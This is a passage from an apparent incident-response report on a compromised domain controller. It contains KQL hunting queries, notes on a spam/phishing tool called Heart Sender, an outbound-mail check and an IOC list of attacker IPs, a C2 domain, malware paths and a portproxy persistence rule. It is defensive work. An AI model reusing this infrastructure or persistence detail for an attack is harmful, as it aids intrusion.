DeviceProcessEvents
| where Timestamp between (datetime(2026-06-15T20:00:00Z) .. datetime(2026-06-16T02:00:00Z))
| where DeviceName == "mts-dc.mts.local"
| where AccountName == "administrator"
| where FileName in~ ("explorer.exe","ServerManager.exe","msedge.exe","cmd.exe","powershell.exe","notepad.exe","rdpclip.exe")
| project Timestamp, FileName, FolderPath, ProcessCommandLine
| order by Timestamp asc
```

**D-2: Heart sender’s first touchdown on the DC (spam/phishing tool)**




```kql
DeviceFileEvents
| where Timestamp between (datetime(2026-06-11T00:00:00Z) .. datetime(2026-06-16T12:00:00Z))
| where DeviceName == "mts-dc.mts.local"
| where FolderPath has "Downloads"
| project Timestamp, ActionType, FileName, FolderPath, InitiatingProcessAccountName
| order by Timestamp asc
```

**D-3: Heart Sender spam/phishing tool execution**

Run by administrator from the Downloads folder.



```kql
DeviceProcessEvents
| where Timestamp between (datetime(2026-06-11T00:00:00Z) .. datetime(2026-06-16T12:00:00Z))
| where DeviceName == "mts-dc.mts.local"
| where FileName has "Heart-Sender" or FolderPath has "Heart-Sender"
| project Timestamp, AccountName, FileName, FolderPath, ProcessCommandLine, SHA256
```

Heart Sender SHA256 hash



1624af752c9f85fd117fafb28feb42a079f283dc133cdcc5799810072a95a6cb

Looks like an email flooder



**D-4: Did Heart Sender actually send mail? (impact check)**

Outbound-mail check, brings back nothing



EmailEvents

```kql
| where Timestamp between (datetime(2026-06-13T00:00:00Z) .. datetime(2026-06-17T00:00:00Z))
| where EmailDirection == "Outbound"
```

Heart Sender may not have sent any emails, but it shows the attackers future intent.

IOC summary:

212.205.155.60 — successful DC administrator access (primary).

103.233.169.123 — successful DC administrator access during egress window.

45.227.254.151, 45.227.254.156, 45.142.193.166 — brute-force sources.

v[.]beahh[.]com — cryptominer/botnet C2 domain (HTTP).

Files: C:\Windows\PLMcFw.exe, C:\Windows\ireidJ.exe, C:\windows\temp\tmp.vbs, C:\windows\temp\svchost.exe, C:\windows\temp\ipc.txt, random-named C:\Windows\*.exe.

Heart-Sender-V1.2.exe — spam/phishing distribution tool (in administrator Downloads).

Scheduled tasks: \Microsoft\windows\PLMcFw Host IOC: TCP 65533 portproxy → 1.1.1.1:53.

12.  Report Status

OPEN — ESCALATED.  Active compromise of a domain controller; containment and domain-wide credential reset required. Byte-level exfiltration attribution remains open pending (and dependent on) future flow-logging — it may not be recoverable for this event.
